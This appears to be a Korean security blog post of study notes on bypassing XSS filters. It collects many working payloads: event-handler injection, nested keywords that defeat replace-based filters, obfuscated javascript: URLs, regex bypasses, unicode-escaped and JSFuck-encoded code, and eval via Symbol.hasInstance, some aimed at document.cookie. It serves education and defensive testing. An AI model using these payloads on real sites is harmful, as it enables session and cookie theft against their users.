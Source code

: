 ```yaml
---
title: "[2025-07-28] XSS Filtering Bypass"
excerpt: "XSS Filtering Bypass"

categories:
  - Justice
tags:
  - [XSS]

permalink: /Justice/[2025-07-28] XSS Filtering Bypass/

toc: true
toc_sticky: true

date: 2025-07-28
last_modified_at: 2025-07-28
---
```


## 🦥 본문

## 불충분한 XSS 필터링

### 이벤트 핸들러 속성

이벤트 핸들러 : 이벤트를 처리하기 위한 콜백 형태의 핸들러 함수 

- onload : 데이터가 로드한 후 실행
- onerror : 데이터를 로드하는데 실패할 시 실행
- onfocus : 커서를 클릭하여 포커스가 되면 실행
    - autofocus : 자동으로 포커스
    
    ```python
    <input type="text" id="inputID" 
           onfocus="alert(document.domain)" 
           autofocus>
    
    //해시 기반 자동 포커스
    http://dreamhack.io/#inputID URL의 #으로 접근하면 포커스
    ```
    

### 문자열 치환

- 필터링 우회

```python
(x => x.replace(/onerror/g, ''))('<img oneonerrorrror=promonerrorpt(1)>')
--> <img onerror=prompt(1) />
```

→ 문자열에 변화가 없을 때까지 지속적으로 치환하는 방식

```python
function replaceIterate(text) {
    while (true) {
        var newText = text
            .replace(/script|onerror/gi, '');
        if (newText === text) break;
        text = newText;
    }
    return text;
}
replaceIterate('<imgonerror src="data:image/svg+scronerroriptxml,&lt;svg&gt;" onloadonerror="alert(1)" />')
--> <img src="data:image/svg+xml,&lt;svg&gt;" onload="alert(1)" />
replaceIterate('<ifronerrorame srcdoc="&lt;sonerrorcript&gt;parent.alescronerroriptrt(1)&lt;/scrionerrorpt&gt;" />')
--> <iframe srcdoc="&lt;&gt;parent.alert(1)&lt;/&gt;" />
```

하지만 미처 고려하지 못한 구문의 존재, WAF 방어 무력화는 동일 

### 활성 하이퍼링크

- `javascript:` 스키마는 URL 로드시 자바스크립트 코드 실행
    
    ```python
    <a href="javascript:alert(document.domain)">Click me!</a>
    <iframe src="javascript:alert(document.domain)">
    ```
    
- 브라우저가 URL을 처리할 때 정규화 과정 우회
    
    ```python
    <a href="\1\4jAVasC\triPT:alert(document.domain)">Click me!</a>
    <iframe src="\1\4jAVasC\triPT:alert(document.domain)">
    ```
    
    - `\x01`, `\x04` , `\t` 같은 특수문자 제거
    - 대소문자 통일
- HTML Entity Encoding 우회
    
    ```python
    <a href="\1&#4;J&#97;v&#x61;sCr\tip&tab;&colon;alert(document.domain);">Click me!</a>
    <iframe src="\1&#4;J&#97;v&#x61;sCr\tip&tab;&colon;alert(document.domain);">
    ```
    

→ URL 객체를 통해 직접 정규화하여 테스트할 수 있음

- protocol, hostname 등 URL 정보 추출 가

```html
function normalizeURL(url) {
    return new URL(url, document.baseURI);
}
normalizeURL('\4\4jAva\tScRIpT:alert(1)').href
--> "javascript:alert(1)"
normalizeURL('\4\4jAva\tScRIpT:alert(1)').protocol
--> "javascript:"
normalizeURL('\4\4jAva\tScRIpT:alert(1)').pathname
--> "alert(1)"
```

### 태그와 속성 기반 필터링

- 대/소문자 검사 미흡
- 잘못된 정규표현식
    - EX) 스크립트 태그 내에 데이터가 존재-검사 정규식과 우회 방법
        
        ```html
        x => !/<script[^>]*>[^<]/i.test(x)
        <script src="data:,alert(document.cookie)"></script>
        ```
        
    - EX2) `img` 태그에 `on` 이벤트 핸들러 존재 검사 정규식과 우회 방법
        
        ```html
        x => !/<img.*on/i.test(x)
        //줄바꿈 문자를 이용한 우회 
        <img src=""\nonerror="alert(document.cookie)"/>
        ```
        
    - EX3) `script`, `img`, `input` 태그 검사 및 우회
        
        ```html
        x => !/<script|<img|<input/i.test(x)
        //다른 태그를 이용한 우회
        <video><source onerror="alert(document.domain)"/></video>
        <body onload="alert(document.domain)"/>
        ```
        
    - EX4) on 이벤트 핸들러 검사 및 멀티 라인 검사와 우회 방법
        
        ```html
        x => !/<script|<img|<input|<.*on/is.test(x)
        //iframe을 통한 우회
        <iframe src="javascript:alert(parent.document.domain)">
        <iframe srcdoc="<&#x69;mg src=1 &#x6f;nerror=alert(parent.document.domain)>">
        ```
        

### 자바스크립트 함수 및 키워드 필터링

- Unicode escape sequence 우회: `“\uAC00” == “가”` 처럼 유니코드 문자를 코드포인트로 나타낼 수 있는 표현법을 통한 우회

```html
var foo = "\u0063ookie";  // cookie
var bar = "cooki\x65";  // cookie
\u0061lert(document.cookie);  // alert(document.cookie)
```

- Computed member access 우회 : 특정 속성에 접근할 때 속성 이름을 동적으로 계산하는 기능

```html
alert(document["\u0063ook" + "ie"]);  // alert(document.cookie)
window['al\x65rt'](document["\u0063ook" + "ie"]);  // alert(document.cookie)
```

- 키워드 필터링 우회

| **구문** | **대체 구문** |
| --- | --- |
| `alert`, `XMLHttpRequest` 등 문서 최상위 객체 및 함수 | `window['al'+'ert']`, `window['XMLHtt'+'pRequest']` 등 이름 끊어서 쓰기 |
| `window` | `self`, `this` |
| `eval(code)` | `Function(code)()` |
| `Function` | `isNaN['constr'+'uctor']` 등 함수의 `constructor` 속성 접근 |
- `[` , `]` , `(` , `)` , `!` , `+` 을 이용하여 자바스크립트의 동작 수행 가능

```html
alert(1)
->
[][(![]+[])[+!+[]]+(!![]+[])[+[]]][([][(![]+[])[+!+[]]+(!![]+[])[+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[][(![]+[])[+!+[]]+(!![]+[])[+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+!+[]]+(!![]+[])[+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[][(![]+[])[+!+[]]+(!![]+[])[+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]]((!![]+[])[+!+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+([][[]]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+!+[]]+(+[![]]+[][(![]+[])[+!+[]]+(!![]+[])[+[]]])[+!+[]+[+!+[]]]+(!![]+[])[!+[]+!+[]+!+[]]+(+(!+[]+!+[]+!+[]+[+!+[]]))[(!![]+[])[+[]]+(!![]+[][(![]+[])[+!+[]]+(!![]+[])[+[]]])[+!+[]+[+[]]]+([]+[])[([][(![]+[])[+!+[]]+(!![]+[])[+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[][(![]+[])[+!+[]]+(!![]+[])[+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+!+[]]+(!![]+[])[+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[][(![]+[])[+!+[]]+(!![]+[])[+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]][([][[]]+[])[+!+[]]+(![]+[])[+!+[]]+((+[])[([][(![]+[])[+!+[]]+(!![]+[])[+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[][(![]+[])[+!+[]]+(!![]+[])[+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+!+[]]+(!![]+[])[+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[][(![]+[])[+!+[]]+(!![]+[])[+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]]+[])[+!+[]+[+!+[]]]+(!![]+[])[!+[]+!+[]+!+[]]]](!+[]+!+[]+!+[]+[!+[]+!+[]])+(![]+[])[+!+[]]+(![]+[])[!+[]+!+[]])()((![]+[])[+!+[]]+(![]+[])[!+[]+!+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]+(!![]+[])[+[]]+([][(![]+[])[+!+[]]+(!![]+[])[+[]]]+[])[+!+[]+[+!+[]]]+[+!+[]]+([]+[]+[][(![]+[])[+!+[]]+(!![]+[])[+[]]])[+!+[]+[!+[]+!+[]]])
false => ![]
true => !![]
```

+ https://jsfuck.com/

- 문자열
    - 템플릿 리터럴 : `[` , `]` , `(` , `)` , `“`, `‘` 이 필터링되어 있을 때 문자열 리터럴. 백틱(``` )으로 감싸서 문자열 정의. 변수나 식을 `${}` 안에 넣어 문자열 중간에 삽입 가능
        
        ```html
        var foo = "Hello";
        var bar = "World";
        var baz = `${foo},
        ${bar} ${1+1}.`; // "Hello,\nWorld 2."
        ```
        
    - RegExp 객체 사용 : RegExp 객체 생성하고 객체의 패턴 부분을 가져와서 문자열 생성 가능
    
    ```html
    var foo = /Hello World!/.source;  // "Hello World!"
    var bar = /test !/ + [];  // "/test !/"
    ```
    
    - String.fromCharCode 함수 사용
    
    ```html
    var foo = String.fromCharCode(72, 101, 108, 108, 111);  // "Hello"
    ```
    
    - 기본 내장 함수나 객체의 문자 사용 : `toString` 함수를 이용해 문자열로 변환
    
    ```html
    
    //history.toString() => [object History] 반환
    var baz = history.toString()[8] + // "H"
    
    //산술 연산 시 객체 내부적으로 문자열 변환
    (history+[])[9] + // "i"
    
    //URL.toString() => function URL(){[native code]} 반환
    (URL+0)[12] + // "("
    (URL+0)[13]; // ")" ==> "Hi()"
    ```
    
    - 숫자 객체의 진법 변환 : 아스키 코드를 이용. 문법 에러를 피하기 위해 괄호, 점 두개, 공백과 점을 이용
    
    ```html
    var foo = (29234652).toString(36); // "hello"
    var foo = 29234652..toString(36); // "hello"
    var bar = 29234652 .toString(36); // "hello"
    ```
    
- 함수 호출 : 함수 호출을 위해서는 소괄호 또는 백틱 사용.
    
    ```html
    alert(1); // Parentheses
    alert`1`; // Tagged Templates
    ```
    
    - `javascript:` 스키마를 이용한 location 변경
        
        ```html
        location="javascript:alert\x28document.domain\x29;";
        location.href="javascript:alert\u0028document.domain\u0029;";
        location['href']="javascript:alert\050document.domain\051;";
        ```
        
    - `Symbol.hasInstance` 오버라이딩 : `Symbol.hasInstance` well-known symbol을 이용하면 `instanceof` 연산자를 오버라이드
        - Symbol : 원시 데이터 타입. 유일하고 변경 불가능한 값 생성
        
        ```html
        "alert\x28document.domain\x29"instanceof{[Symbol.hasInstance]:eval};
        Array.prototype[Symbol.hasInstance]=eval;"alert\x28document.domain\x29"instanceof[];
        ```